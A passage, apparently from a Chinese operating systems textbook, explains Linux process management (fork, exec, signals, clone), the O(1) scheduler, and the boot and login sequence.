但是，父进程和子进程可以共享已经打开的文件。也就是说，如果某一个文件在父进程调用fork函数之前就已经打开了，那么在父进程调用fork函数之后，对于父进程和子进程来说，这个文件也是打开的。如果父、子进程中任何一个进程对这个文件进行了修改，那么对于另一个进程而言，这些修改都是可见的。由于这些修改对于那些打开了这个文件的其他任何无关进程来说也是可见的，所以，在父、子进程间共享已经打开的文件以及对文件的修改彼此可见的做法也是很正常的。
事实上，父、子进程的内存映像、变量、寄存器以及其他所有的东西都是相同的，这就产生了一个问题：该如何区别这两个进程，即哪一个进程该去执行父进程的代码，哪一个进程该去执行子进程的代码呢？秘密在于fork系统调用给子进程返回一个零值，而给父进程返回一个非零值。这个非零值是子进程的进程标识符（Process Identifier，PID）。两个进程检验fork函数的返回值，并且根据返回值继续执行，如图10-4所示。
进程以其PID来命名。如前所述，当一个进程被创建的时候，它的父进程会得到它的PID。如果子进程希望知道它自己的PID，可以调用系统调用getpid。PID有很多用处，举个例子来说，当一个子进程结束的时候，它的父进程会得到该子进程的PID。这一点非常重要，因为一个父进程可能会有多个子进程。由于子进程还可以生成子进程，那么一个原始进程可以生成一个进程树，其中包含着子进程、孙子进程以及关系更疏远的后裔进程。
Linux系统中的进程可以通过一种消息传递的方式进行通信。在两个进程之间，可以建立一个通道，一个进程向这个通道里写入字节流，另一个进程从这个通道中读取字节流。这些通道称为管道（pipe)。使用管道也可以实现同步，因为如果一个进程试图从一个空的管道中读取数据，这个进程就会被挂起直到管道中有可用的数据为止。
shell中的管线就是用管道技术实现的。当shell看到类似下面的一行输入时：
sort＜f|head
它会创建两个进程，分别是sort和head，同时在两个进程间建立一个管道使得sort进程的标准输出作为head进程的标准输入。这样一来，sort进程产生的输出可以直接作为head进程的输入而不必写入到一个文件当中去。如果管道满了，系统会停止运行sort进程直到head进程从管道中删除一些数据。
进程还可以通过另一种方式通信：软件中断。一个进程可以给另一个进程发送信号（signal）。进程可以告诉操作系统当信号到来时它们希望发生什么事件。相关的选择有忽略这个信号、抓取这个信号或者利用这个信号杀死某个进程（大部分情况下，这是处理信号的默认方式）。如果一个进程希望获取所有发送给它的信号，它就必须指定一个信号处理函数。当信号到达时，控制立即切换到信号处理函数。当信号处理函数结束并返回之后，控制像硬件I/O中断一样返回到陷入点处。一个进程只可以给它所在进程组中的其他进程发送信号，这个进程组包括它的父进程（以及远祖进程）、兄弟进程和子进程（以及后裔进程）。同时，一个进程可以利用系统调用给它所在的进程组中所有的成员发送信号。
信号还可以用于其他用途。比如说，如果一个进程正在进行浮点运算，但是不慎除数为0，它就会得到一个SIGFPE信号（浮点运算异常信号）。POSIX系统定义的信号详见图10-5所示。很多Linux系统会有自己添加的额外信号，但是使用了这些信号的程序一般情况下将没有办法移植到Linux的其他版本或者UNIX系统上。
现在来关注一下Linux系统中与进程管理相关的系统调用。主要的系统调用如图10-6所示。为了开始我们的讨论，fork函数是一个很好的切入点。fork系统调用是Linux系统中创建一个新进程的主要方式，同时也被其他传统的UNIX系统所支持（在下一部分将讨论另一种创建进程的方法）。fork函数创建一个与原始进程完全相同的进程副本，包括相同的文件描述符、相同的寄存器内容和其他的所有东西。fork函数调用之后，原始进程和它的副本（即父进程和子进程）各循其路。虽然在fork函数刚刚结束调用的时候，父、子进程所拥有的全部变量都具有相同的变量值，但是由于父进程的全部地址空间已经被子进程完全复制，父、子进程中的任何一个对内存的后续操作所引起的变化将不会影响另外一个进程。fork函数的返回值，对于子进程来说，恒为0；对于父进程来说，是它所生成的子进程的PID。使用返回的PID，可以区分哪一个进程是父进程，哪一个进程是子进程。
在大多数情况下，调用fork函数之后，子进程需要执行不同于父进程的代码。以shell为例。它从终端读取一行命令，调用fork函数生成一个子进程，然后等待子进程来执行这个命令，子进程结束之后继续读取下一条命令。在等待子进程结束的过程中，父进程调用系统调用waitpid，一直等待直到子进程结束运行（如果该父进程不止拥有一个子进程，那么要一直等待直到所有的子进程全部结束运行）。waitpid系统调用有三个参数。设置第一个参数可以使调用者等待某一个特定的子进程。如果第一个参数为-1，任何一个子进程结束系统调用waitpid即可返回（比如说，第一个子进程）。第二个参数是一个用来存储子进程退出状态（正常退出、异常退出和退出值）的变量地址。第三个参数决定了如果没有子进程结束运行的话，调用者是阻塞还是返回。
仍然以shell为例，子进程必须执行用户键入的命令。子进程通过调用系统调用exec来执行用户命令，以exec函数的第一个参数命名的文件将会替换掉子进程原来的全部核心映像。图10-7展示了一个高度简化的shell（有助于理解系统调用fork，waitpid和exec的用法）。
在大多数情况下，exec函数有三个参数：待执行文件的文件名，指向参数数组的指针和指向环境数组的指针。简单介绍一下其他的类似函数。很多库函数，如execl、execv、execle和execve，允许省略参数或者用不同的方式来指定参数。上述的所有库函数都会调用相同的底层系统调用。尽管系统调用是exec函数，但是函数库中却没有同名的库函数，所以只能使用上面提到的其他函数。
考虑在shell中输入如下命令：
cp file1 file2
用来建立一个名为file2的file1的副本。在shell调用fork函数之后，子进程定位并执行文件名为cp的可执行文件同时把需要复制的文件信息传递给它。
cp的主程序（还有很多其他的程序）包含一个函数声明：
main(argc,argv,envp)
在这里，参数argc表示命令行中包括程序名的项的数目。在上面所举的例子中，argc的值为3。
第二个参数argv是一个指向数组的指针。数组的第i项是一个指向命令行中第i个字符串的指针。在此例中，argv[0]指向字符串“cp”。以此类推，argv[1]指向五字节长度的字符串“file1”，argv[2]指向五字节长度的字符串“file2”。
main的第三个参数envp是一个指向环境的指针，这里的环境，是指一个包含若干个形如name=value赋值语句的字符串数组，这个数组将传递终端类型、主目录名等信息给程序。在图10-7中，没有要传给子进程的环境列表，所以在这里，execve函数的第三个参数是0。
如果exec函数看起来太复杂了，不要泄气，这已经是最复杂的系统调用了，剩下的要简单很多。作为一个简单的例子，我们来考虑exit函数，当进程结束运行时会调用这个函数。它有一个参数，即退出状态（从0到255），这个参数的值最后会传递给父进程调用waitpid函数的第二个参数——状态参数。状态参数的低字节部分包含着结束状态，0意味着正常结束，其他的值代表各种不同的错误。状态参数的高字节部分包含着子进程的退出状态（从0到255），其值由子进程调用的exit系统调用指定。例如，如果父进程执行如下语句：
n=waitpid(-1,＆status,0);
它将一直处于挂起状态，直到有子进程结束运行。如果子进程退出时以4作为exit函数的参数，父进程将会被唤醒，同时将变量n设置为子进程的PID，变量status设置为0x0400（在C语言中，以0x作为前缀表示十六进制）。变量status的低字节与信号有关，高字节是子进程返回时调用exit函数的参数值。
如果一个进程退出但是它的父进程并没有在等待它，这个进程进入僵死状态（zombie state）。最后当父进程等待它时，这个进程才会结束。
一些与信号相关的系统调用以各种各样的方式被运用。比方说，如果一个用户偶然间命令文字编辑器显示一篇超长文档的全部内容，然后意识到这是一个误操作，这就需要采用某些方法来打断文字编辑器的工作。对于用户来说，最常用的选择是敲击某些特定的键（如DEL或者CTRL-C等），从而给文字编辑器发送一个信号。文字编辑器捕捉到这个信号，然后停止显示。
为了表明所关心的信号有哪些，进程可以调用系统调用sigaction。这个函数的第一个参数是希望捕捉的信号（如图10-5所示）。第二个参数是一个指向结构的指针，在这个结构中包括一个指向信号处理函数的指针以及一些其他的位和标志。第三个参数也是一个指向结构的指针，这个结构接收系统返回的当前正在进行的信号处理的相关信息，有可能以后这些信息需要恢复。
信号处理函数可以运行任意长的时间。尽管如此，在实践当中，通常情况下信号处理函数都非常短小精悍。当信号处理完毕之后，控制返回到断点处继续执行。
sigaction系统调用也可以用来忽略一个信号，或者恢复为一个杀死进程的缺省操作。
敲击DEL键并不是发送信号的惟一方式。系统调用kill允许一个进程给它相关的进程发送信号。选择“kill”作为这个系统调用的名字其实并不是十分贴切，因为大多数进程发送信号给别的进程只是为了信号能够被捕捉到。
对于很多实时应用程序，在一段特定的时间间隔之后，一个进程必须被打断，系统会转去做一些其他的事情，比如说在一个不可信的信道上重新发送一个可能丢失的数据包。为了处理这种情况，系统提供了alarm系统调用。这个系统调用的参数规定了一个以秒为单位的时间间隔，这个时间间隔过后，一个名为SIGALRM的信号会被发送给进程。一个进程在某一个特定的时刻只能有惟一一个未处理的警报。如果alarm系统调用首先以10秒为参数被调用，3秒钟之后，又以20秒为参数被调用，那么只会生成一个SIGALRM信号，这个信号生成在第二次调用alarm系统调用的20秒之后。第一次alarm系统调用设置的信号被第二次alarm系统调用取消了。如果alarm系统调用的参数为0，任何即将发生的警报信号都会被取消。如果没有捕捉到警报信号，将会采取默认的处理方式，收取信号的进程将会被杀死。从技术角度来讲，警报信号是可以忽略的，但是这样做毫无意义。
有些时候会发生这样的情况，在信号到来之前，进程无事可做。比如说，考虑一个用来测试阅读速度和理解能力的计算机辅助教学程序。它在屏幕上显示一些文本然后调用alarm函数于30秒后生成一个警报信号。当学生读课文的时候，程序就无事可做。它可以进入空循环而不做任何事情，但是这样一来就会浪费其他后台程序或用户急需的CPU时间。一个更好的解决办法就是使用pause系统调用，它会通知Linux系统将本进程挂起直到下一个信号到来。
Linux系统中的一个进程就像是一座冰山：你所看见的不过是它露出水面的部分，而很重要的一部分隐藏在水下。每一个进程都有一个运行用户程序的用户模式。但是当它的某一个线程调用系统调用之后，进程会陷入内核模式并且运行在内核上下文中，它将使用不同的内存映射并且拥有对所有机器资源的访问权。它还是同一个线程，但是现在拥有更高的权限，同时拥有自己的内核堆栈以及内核程序计数器。这几点非常重要，因为一个系统调用可能会因为某些原因陷入阻塞态，比如说，等待一个磁盘操作的完成。这时程序计数器和寄存器内容会被保存下来使得不久之后线程可以在内核模式下继续运行。
在Linux系统内核中，进程通过数据结构task_struct被表示成任务（task）。不像其他的操作系统会区别进程、轻量级进程和线程，Linux系统用任务的数据结构来表示所有的执行上下文。所以，一个单线程的进程只有一个任务数据结构，而一个多线程的进程将为每一个用户级线程分配一个任务数据结构。最后，Linux的内核是多线程的，并且它所拥有的是与任何用户进程无关的内核级线程，这些内核级线程执行内核代码。稍后，本节会重新关注多线程进程（一般的讲，就是线程）的处理方式。
对于每一个进程，一个类型为task_struct的进程描述符是始终存在于内存当中的。它包含了内核管理全部进程所需的重要信息，如调度参数、已打开的文件描述符列表等。进程描述符从进程被创建开始就一直存在于内核堆栈之中。
为了与其他UNIX系统兼容，Linux还通过进程标识符（PID）来区分进程。内核将所有进程的任务数据结构组织成一个双向链表。不需要遍历这个链表来访问进程描述符，PID可以直接被映射成进程的任务数据结构所在的地址，从而立即访问进程的信息。
任务数据结构包含非常多的分量。其中一些分量包含指向其他数据结构或段的指针，比如说包含关于已打开文件的信息。有些段只与进程用户级的数据结构有关，当用户进程没有运行的时候，它们是不被关注的。所以，当不需要它们的时候，这些段可以被交换出去或重新分页以达到不浪费内存的目的。举个例子，尽管对于一个进程来说，当它被交换出去的时候，可能会有其他进程给它发送信号，但是这个进程本身却不会要求读取一个文件。正因为如此，关于信号的信息才必须永远保存在内存里，即使这个进程已经不在内存当中了。换句话说，关于文件描述符的信息可以被保存在用户级的数据结构里，当进程存在于内存当中并且可以执行的时候，这些信息才需要被调入内存。
进程描述符的信息包含以下几大类：
1)调度参数。进程优先级，最近消耗的CPU时间，最近睡眠的时间。上面几项内容结合在一起决定了下一个要运行的进程是哪一个。
2)内存映射。指向代码、数据、堆栈段或页表的指针。如果代码段是共享的，代码指针指向共享代码表。当进程不在内存当中时，关于如何在磁盘上找到这些数据的信息也被保存在这里。
3)信号。掩码显示了哪些信号被忽略、哪些信号需要捕捉、哪些信号被暂时阻塞以及哪些信号在传递当中。
4)机器寄存器。当内核陷阱发生时，机器寄存器的内容（也包括被使用了的浮点寄存器的内容）会被保存。
5)系统调用状态。关于当前系统调用的信息，包括参数和返回值。
6)文件描述符表。当一个与文件描述符有关的系统调用被调用的时候，文件描述符作为索引在文件描述符表中定位相关文件的i节点数据结构。
7)统计。指向记录用户、进程占用系统CPU时间的表的指针。一些系统还保存一个进程最多可以占用CPU的时间、进程可以拥有的最大堆栈空间、进程可以消耗的页面数等。
8)内核堆栈。进程的内核部分可以使用的固定堆栈。
9)其他。当前进程状态。如果有的话，包括正在等待的事件、距离警报时钟超时的时间、PID、父进程的PID以及其他用户标识符、组标识符等。
记住这些信息，现在可以很容易地解释在Linux系统中是如何创建进程的。实际上，创建一个新进程的过程非常简单。为子进程创建一个新的进程描述符和用户空间，然后从父进程复制大量的内容。这个子进程被赋予一个PID，并建立它的内存映射，同时它也被赋予了访问属于父进程文件的权利。然后，它的寄存器内容被初始化并准备运行。
当系统调用fork执行的时候，调用fork函数的进程陷入内核并且创建一个任务数据结构和其他相关的数据结构，如内核堆栈和thread_info结构。这个结构位于进程堆栈栈底固定偏移量的地方，包含一些进程参数，以及进程描述符的地址。把进程描述符的地址存储在一个固定的地方，使得Linux系统只需要进行很少的有效操作就可以找到一个运行中进程的任务数据结构。
进程描述符的主要内容根据父进程的进程描述符来填充。Linux系统只需要寻找一个可用的PID，更新进程标识符散列表的表项使之指向新的任务数据结构即可。如果散列表发生冲突，相同键值的进程描述符会被组成链表。它会把task_struct结构中的一些分量设置为指向任务数组中相应进程的前一/后一进程的指针。
理论上，现在就应该为子进程分配数据段、堆栈段，并且对父进程的段进行复制，因为fork函数意味着父、子进程之间不共享内存。其中如果代码段是只读的，可以复制也可以共享。然后，子进程就可以运行了。
但是，复制内存的代价相当昂贵，所以现代Linux系统都使用了欺骗的手段。它们赋予子进程属于它的页表，但是这些页表都指向父进程的页面，同时把这些页面标记成只读。当子进程试图向某一页面中写入数据的时候，它会收到写保护的错误。内核发现子进程的写入行为之后，会为子进程分配一个该页面的新副本，并将这个副本标记为可读、可写。通过这种方式，使得只有需要写入数据的页面才会被复制。这种机制叫做写时复制。它所带来的额外好处是，不需要在内存中维护同一个程序的两个副本，从而节省了RAM。
子进程开始运行之后，运行代码（shell的副本）调用系统调用exec，将命令名作为exec函数的参数。内核找到并核实相应的可执行文件，把参数和环境变量复制到内核，释放旧的地址空间和页表。
现在必须建立并填充新的地址空间。如果你使用的系统像Linux系统或其他基于UNIX的系统一样支持映射文件，新的页表会被创建，并指出所需的页面不在内存中，除非用到的页面是堆栈页，但是所需的地址空间在磁盘的可执行文件中都有备份。当新进程开始运行的时候，它会立刻收到一个缺页中断，这会使得第一个含有代码的页面从可执行文件调入内存。通过这种方式，不需要预先加载任何东西，所以程序可以快速地开始运行，只有在所需页面不在内存中时才会发生页面错误（这种情况是第3章中讨论的最纯粹的按需分页机制）。最后，参数和环境变量被复制到新的堆栈中，信号被重置，寄存器被全部清零。从这里开始，新的命令就可以运行了。
图10-8通过下面的例子解释了上述的步骤：某用户在终端键入一个命令ls，shell调用fork函数复制自身以创建一个新进程。新的shell调用exec函数用可执行文件ls的内容覆盖它的内存。
Linux中的线程
我们在第2章中概括性的介绍了线程。在这里，我们重点关注Linux系统的内核线程，特别是Linux系统中线程模型与其他UNIX系统的不同之处。为了能更好地理解Linux模型所提供的独一无二的性能，我们先来讨论一些多线程操作系统中存在的有争议的决策。
引入线程的最大争议在于维护传统UNIX语义的正确性。首先来考虑fork函数。假设一个多（内核）线程的进程调用了fork系统调用。所有其他的线程都应该在新进程中被创建吗？我们暂时认为答案是肯定的。再假设其他线程中的其中一个线程在从键盘读取数据时被阻塞。那么，新进程中对应的线程也应该被阻塞么？如果是的话，那么哪一个线程应该获得下一行的输入？如果不是的话，新进程中对应的线程又应该做什么呢？同样的问题还大量存在于线程可以完成的很多其他的事情上。在单线程进程中，由于调用fork函数的时候，惟一的进程是不可能被阻塞的，所以不存在这样的问题。现在，考虑这样的情况——其他的线程不会在子进程中被创建。再假设一个没有在子进程中被创建的线程持有一个互斥变量，而子进程中惟一的线程在fork函数结束之后要获得这个互斥变量。那么由于这个互斥变量永远不会被释放，所以子进程中惟一的线程也会永远挂起。还有大量其他的问题存在。但是没有简单的解决办法。
文件输入/输出是另一个问题。假设一个线程由于要读取文件而被阻塞，而另一个线程关闭了这个文件，或者调用lseek函数改变了当前的文件指针。下面会发生什么事情呢？谁能知道？
信号的处理是另一个棘手的问题。信号是应该发送给某一个特定的线程还是发送给线程所在的进程呢？一个浮点运算异常信号SIGFPE应该被引起浮点运算异常的线程所捕获。但是如果它没有捕获到呢？是应该只杀死这个线程，还是杀死线程所属进程中的全部线程？再来考虑由用户通过键盘输入的信号SIGINT。哪一个线程应该捕获这个信号？所有的线程应该共享同样的信号掩码吗？通常，解决这些或其他问题的所有方法会引发另一些问题。使线程的语义正确（不涉及代码）不是一件容易的事。
Linux系统用一种非常值得关注的有趣的方式支持内核线程。具体实现基于4.4BSD的思想，但是在那个版本中内核线程没能实现，因为在能够解决上述问题的C语言程序库被重新编写之前，Berkeley就资金短缺了。
从历史观点上说，进程是资源容器，而线程是执行单元。一个进程包含一个或多个线程，线程之间共享地址空间、已打开的文件、信号处理函数、警报信号和其他。像上面描述的一样，所有的事情简单而清晰。
2000年的时候，Linux系统引入了一个新的、强大的系统调用clone，模糊了进程和线程的区别，甚至使得两个概念的重要性被倒置。任何其他UNIX系统的版本中都没有clone函数。传统观念上，当一个新线程被创建的时候，之前的线程和新线程除了寄存器内容之外共享所有的信息。特别是，已打开文件的文件描述符、信号处理函数、警报信号和其他每个进程（不是每个线程）都具有的全局属性。clone函数可以设置这些属性是进程特有的还是线程特有的。它的调用方式如下：
pid=clone(function,stack_ptr,sharing_flags,arg);
调用这个函数可以在当前进程或新的进程中创建一个新线程，具体依赖于参数sharing_flags。如果新线程在当前进程中，它将与其他已存在的线程共享地址空间，任何一个线程对地址空间做出修改对于同一进程中的其他线程而言都是立即可见的。换句话说，如果地址空间不是共享的，新线程会获得地址空间的完整副本，但是新线程对这个副本进行的修改对于旧的线程来说是不可见的。这些语义同POSIX的fork函数是相同的。
在这两种情况下，新线程都从function处开始执行，并以arg作为惟一的参数。同时，新线程还拥有私有堆栈，其中私有堆栈的指针被初始化为stack_ptr。
参数sharing_flags是一个位图，这个位图允许比传统的UNIX系统更加细粒度的共享。每一位可以单独设置，且每一位决定了新线程是复制一些数据结构还是与调用clone函数的线程共享这些数据结构。图10-9显示了根据sharing_flags的设置，哪些项可以共享，哪些项需要复制。
CLONE_VM位决定了虚拟内存（即地址空间）是与旧的线程共享还是需要复制。如果该位置1，新线程加入到已存在的线程中去，即clone函数在一个已经存在的进程中创建了一个新线程。如果该位清零，新线程会拥有私有的地址空间。拥有自己的地址空间意味着存储的操作对于之前已经存在的线程而言是不可见的。这与fork函数很相似，除了下面提到的一点。创建新的地址空间事实上就定义了一个新的进程。
CLONE_FS位控制着是否共享根目录、当前工作目录和umask标志。即使新线程拥有自己的地址空间，如果该位置1，新、旧线程之间也可以共享当前工作目录。这就意味着即使一个线程拥有自己的地址空间，另一个线程也可以调用chdir函数改变它的工作目录。在UNIX系统中，一个线程通常会调用chdir函数改变它所在进程中其他线程的当前工作目录，而不会对另一进程中的线程做这样的操作。所以说，这一位引入了一种传统UNIX系统不可能具有的共享性。
CLONE_FILES位与CLONE_FS位相似。如果该位置1，新线程与旧线程共享文件描述符，所以一个线程调用lseek函数对另一个线程而言是可见的。通常，这样的处理是对于同属一个进程的线程，而不是不同进程的线程。相似的，CLONE_SIGHAND位控制是否在新、旧线程间共享信号句柄表。如果信号处理函数表是共享的，即使是在拥有不同地址空间的线程之间共享，一个线程改变某一处理函数也会影响另一个线程的处理函数。CLONE_PID位控制新线程是拥有自己的PID还是与父进程共享PID。这个特性在系统启动的时候是必需的。用户进程不允许对该位进行设置。
最后，每一个进程都有一个父进程。CLONE_PARENT位控制着哪一个线程是新线程的父线程。父线程可以与clone函数调用者的父线程相同（在这种情况下，新线程是clone函数调用者的兄弟），也可以是clone函数调用者本身，在这种情况下，新线程是clone函数调用者的子线程。还有另外一些控制其他项目的位，但是它们不是很重要。
由于Linux系统为不同的项目维护了独立的数据结构（见10.3.3小节，如调度参数、内存映射等），因此细粒度的共享成为了可能。任务数据结构只需要指向这些数据结构即可，所以为每一个线程创建一个新的任务数据结构变得很容易，或者使它指向旧线程的调度参数、内存映射和其他的数据结构，或者复制它们。事实上，条理分明的共享性虽然成为了可能，但并不意味着它是有益的，毕竟传统的UNIX系统都没有提供这样的功能。一个利用了这种共享性的Linux程序将不能移植到UNIX系统上。
Linux系统的线程模型带来了另一个难题。UNIX系统为每一个进程分配一个独立的PID，不论它是单线程的进程还是多线程的进程。为了能与其他的UNIX系统兼容，Linux对进程标识符（PID）和任务标识符（TID）进行了区分。这两个分量都存储在任务数据结构中。当调用clone函数创建一个新进程而不需要和旧进程共享任何信息时，PID被设置成一个新值；否则，任务得到一个新的任务标识符，但是PID不变。这样一来，一个进程中所有的线程都会拥有与该进程中第一个线程相同的PID。
现在我们来关注Linux系统的调度算法。首先要认识到，Linux系统的线程是内核线程，所以Linux系统的调度是基于线程的，而不是基于进程的。
为了进行调度，Linux系统将线程区分为三类：
1)实时先入先出。
2)实时轮转。
3)分时。
实时先入先出线程具有最高优先级，它不会被其他线程抢占，除非那是一个刚刚准备好的、拥有更高优先级的实时先入先出线程。实时轮转线程与实时先入先出线程基本相同，只是每个实时轮转线程都有一个时间量，时间到了之后就可以被抢占。如果多个实时轮转线程都准备好了，每一个线程运行它的时间量所规定的时间，然后插入到实时轮转线程列表的末尾。事实上，这两类线程都不是真正的实时线程。执行的最后期限无法确定，更无法保证最后期限前线程可以执行完毕。这两类线程比起分时线程来说只是具有更高的优先级而已。Linux系统之所以称它们为“实时”是因为Linux系统遵循的P1003.4标准（UNIX系统对“实时”含义的扩展）使用了这个名称。在系统内部，实时线程的优先级从0到99，0是实时线程的最高优先级，99是实时线程的最低优先级。
传统的非实时线程按照如下的算法进行调度。在系统内部，非实时线程的优先级从100到139，也就是说，在系统内部，Linux系统区分140级的优先级（包括实时和非实时任务）。就像实时轮转线程一样，Linux系统根据非实时线程的优先级分配时间量。这个时间量是线程可以连续运行的时钟周期数。在当前的Linux版本中，时钟频率为1000赫兹，每个时钟周期为1ms，也叫做一个最小时间间隔（jiffy）。
像大多数UNIX系统一样，Linux系统给每个线程分配一个nice值（即优先级调节值）。默认值是0，但是可以通过调用系统调用nice（value）来修改，修改值的范围从-20到+19。这个值决定了线程的静态优先级。一个在后台大量计算π值的用户可以在他的程序里调用这个系统调用为其他用户让出更多计算资源。只有系统管理员可以要求比普通服务更好的服务（意味着nice函数参数值的范围从-20到-1）。推断这条规则的理由作为练习留给读者。
Linux调度算法使用一个重要的数据结构——调度队列。在系统中，一个CPU有一个调度队列，除了其他信息，调度队列中有两个数组，一个是正在活动的，一个是过期失效的。如图10-10所示，这两个分量都是指向数组的指针，每个数组都包含了140个链表头，每个链表具有不同的优先级。链表头指向给定优先级的双向进程链表。调度的基本操作如下所述。
调度器从正在活动数组中选择一个优先级最高的任务。如果这个任务的时间片（时间量）过期失效了，就把它移动到过期失效数组中（可能会插入到优先级不同的列表中）。如果这个任务阻塞了，比如说正在等待I/O事件，那么在它的时间片过期失效之前，一旦所等待的事件发生，任务就可以继续运行，它将被放回到之前正在活动的数组中，时间片根据它所消耗的CPU时间相应的减少。一旦它的时间片消耗殆尽，它也会被放到过期失效数组中。当正在活动数组中没有其他的任务了，调度器交换指针，使得正在活动数组变为过期失效数组，过期失效数组变为正在活动数组。这种方法可以保证低优先级的任务不会被饿死（除非实时先入先出线程完全占用CPU，但是这种情况是不会发生的）。
不同的优先级被赋予不同的时间片长度。Linux系统会赋予高优先级的进程较长的时间片。例如，优先级为100的任务可以得到800ms的时间片，而优先级为139的任务只能得到5ms的时间片。
这种调度模式的思想是为了使进程更快地出入内核。如果一个进程试图读取一个磁盘文件，在调用read函数之间等待一秒钟的时间显然会极大地降低进程的效率。每个请求完成之后让进程立即运行的做法会好得多，同时这样做也可以使下一个请求更快的完成。相似地，如果一个进程因为等待键盘输入而阻塞，那么它明显是一个交互进程，这样的进程只要准备好运行后就应当被赋予较高的优先级，从而保证交互进程可以提供较好的服务。在这种情况下，当I/O密集进程和交互进程被阻塞之后，CPU密集进程基本上可以得到所有被留下的服务。
由于Linux系统（或其他任何操作系统）事先不知道一个任务究竟是I/O密集的，还是CPU密集的，它只是依赖于连续保持的互动启发模式。通过这种方式，Linux系统区分静态优先级和动态优先级。线程的动态优先级不断地被重新计算，其目的在于：(1)奖励互动进程，(2)惩罚占用CPU的进程。最高的优先级奖励是-5，是从调度器接收的与更高优先级相对应的较低优先级的值。最高的优先级惩罚是+5。
说得更详细些，调度器给每一个任务维护一个名为sleep_avg的变量。每当任务被唤醒时，这个变量会增加；当任务被抢占或时间量过期时，这个变量会相应地减少。减少的值用来动态生成优先级奖励，奖励的范围从-5到+5。当一个线程从正在活动数组移动到过期失效数组中时，Linux系统的调度器会重新计算它的优先级。
这里讲述的调度算法指的是2.6版本内核，最初引入这个调度算法的是不稳定的2.5版本内核。早期的调度算法在多处理器环境中所表现的性能十分低下，并且当任务的数量大量增长时，不能很好地进行调度。由于上面描述的内容说明了通过访问正在活动数组就可以做出调度决定，那么调度可以在一个固定的时间O（1）内完成，而与系统中进程的数量无关。
另外，调度器包含了对于多处理器和多核平台而言非常有益的特性。首先，在多处理器平台上，运行队列数据结构与某一个处理器相对应，调度器尽量进行亲和调度，即将之前在某个处理器上运行过的任务再次调入该处理器。第二，为了更好地描述或修改一个选定的线程对亲和性的要求，有一组系统调用可供调用。最后，在满足特定性能和亲和要求的前提下，调度器实现在不同处理器上阶段性地加载平衡，从而保证整个系统的加载是平衡的。
调度器只考虑可以运行的任务，这些任务被放在适当的调度队列当中。不可运行的任务和正在等待各种I/O操作或内核事件的任务被放入另一个数据结构当中，即等待队列。每一种任务可能需要等待的事件对应了一个等待队列。等待队列的头包含一个指向任务链表的指针及一枚自旋锁。为了保证等待队列可以在主内核代码、中断处理函数或其他异步处理请求代码中进行并发操作，自旋锁是非常必要的。
每个平台的细节都有不同，但是整体来说，下面的步骤代表了启动的过程。当计算机启动时，BIOS加电自检（POST），并对硬件进行检测和初始化，这是因为操作系统的启动过程可能会依赖于磁盘访问、屏幕、键盘等。接下来，启动磁盘的第一个扇区，即主引导记录（MBR），被读入到一个固定的内存区域并且执行。这个分区中含有一个很小的程序（只有512字节），这个程序从启动设备中，通常是IDE或SCSI磁盘，调入一个名为boot的独立程序。boot程序将自身复制到高地址的内存当中从而为操作系统释放低地址的内存。
复制完成后，boot程序读取启动设备的根目录。为了达到这个目的，boot程序必须能够理解文件系统和目录格式，这个工作通常由引导程序，如GRUB（多系统启动管理器），来完成。其他流行的引导程序，如Intel的LILO，不依赖于任何特定的文件系统。相反，他们需要一个块映射图和低层地址，他们描述了物理扇区、磁头和磁道，可以帮助找到相应的需要被加载的扇区。
然后，boot程序读入操作系统内核，并把控制交给内核。从这里开始，boot程序完成了它的任务，系统内核开始运行。
内核的开始代码是用汇编语言写成的，具有较高的机器依赖性。主要的工作包括创建内核堆栈、识别CPU类型、计算可用内存、禁用中断、启用内存管理单元，最后调用C语言写成的main函数开始执行操作系统的主要部分。
C语言代码也有相当多的初始化工作要做，但是这些工作更逻辑化（而不是物理化）。C语言代码开始的时候会分配一个消息缓冲区来帮助调试启动出现的问题。随着初始化工作的进行，信息被写入消息缓冲区，这些信息与当前正在发生的事件相关，所以，如果出现启动失败的情况，这些信息可以通过一个特殊的诊断程序调出来。我们可以把它当作是操作系统的“飞行信息记录器”（即空难发生后，侦查员寻找的黑盒子）。
接下来，内核数据结构得到分配。大部分内核数据结构的大小是固定的，但是一少部分，如页面缓存和特殊的页表结构，依赖于可用内存的大小。
从这里开始，系统进行自动配置。使用描述何种设备可能存在配置文件，系统开始探测哪些设备是确实存在的。如果一个被探测的设备给出了响应，这个设备就会被加入到已连接设备表中。如果它没有响应，就假设它未连接或直接忽略掉它。不同于传统的UNIX版本，Linux系统的设备驱动程序不需要静态链接，它们可以被动态加载（就像所有的MS-DOS和Windows版本一样）。
关于支持和反对动态加载驱动程序的争论非常有趣，值得简要地阐述一下。动态加载的主要论点是同样的二进制文件可以分发给具有不同系统配置的用户，这个二进制文件可以自动加载它所需要的驱动程序，甚至可以通过网络加载。反对动态加载的主要论点是安全。如果你正在一个安全的环境中运行计算机，比如说银行的数据库系统或者公司的网络服务器，你肯定不希望其他人向内核中插入随机代码。系统管理员可以在一个安全的机器上保存系统的源文件和目标文件，在这台机器上完成系统的编译链接，然后通过局域网把内核的二进制文件分发给其他的机器。如果驱动程序不能被动态加载，这就阻止了那些知道超级用户密码的计算机使用者或其他人向系统内核注入恶意或漏洞代码。而且，在大的站点中，系统编译链接的时候硬件配置都是已知的。需要重新链接系统的变化非常罕见，即使是在系统中添加一个硬件设备也不是问题。
一旦所有的硬件都配置好了，接下来要做的事情就是细心地手动运行进程0，建立它的堆栈，运行它。进程0继续进行初始化，做如下的工作：配置实时时钟，挂载根文件系统，创建init进程（进程1）和页面守护进程（进程2）。
init进程检测它的标志以确定它应该为单用户还是多用户服务。前一种情况，它调用fork函数创建一个shell进程，并且等待这个进程结束。后一种情况，它调用fork函数创建一个运行系统初始化shell脚本（即/etc/rc）的进程，这个进程可以进行文件系统一致性检测、挂载附加文件系统、开启守护进程等。然后这个进程从/etc/ttys中读取数据，其中/etc/ttys列出了所有的终端和它们的属性。对于每一个启用的终端，这个进程调用fork函数创建一个自身的副本，进行内部处理并运行一个名为getty的程序。
getty程序设置行速率以及其他的行属性（比如，有一些可能是调制解调器），然后在终端的屏幕上输出：
login:
等待用户从键盘键入用户名。当有人坐在终端前，提供了一个用户名后，getty程序就结束了，登录程序/bin/login开始运行。login程序要求输入密码，给密码加密，并与保存在密码文件/etc/passwd中的加密密码进行对比。如果是正确的，login程序以用户shell程序替换自身，等待第一个命令。如果是不正确的，login程序要求输入另一个用户名。这种机制如图10-11所示，该系统具有三个终端。
在图中，0号终端上运行的getty程序仍然在等待用户输入。1号终端上，用户已经键入了登录名，所以getty程序已经用login程序替换掉自身，目前正在等待用户输入密码。2号终端上，用户已经成功登录，shell程序显示提示符（%）。然后用户输入
